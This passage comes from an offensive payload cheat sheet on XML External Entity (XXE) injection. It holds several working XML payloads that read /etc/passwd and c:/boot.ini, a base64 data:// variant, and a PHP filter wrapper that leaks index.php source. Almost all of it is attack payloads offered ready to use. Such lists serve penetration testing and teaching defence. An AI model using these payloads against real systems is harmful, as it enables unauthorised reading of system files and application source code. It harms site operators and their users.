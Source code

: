 It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Exploiting XXE to retrieve files

### Classic XXE

We try to display the content of the file `/etc/passwd` 

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM` and `PUBLIC` are almost synonym.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
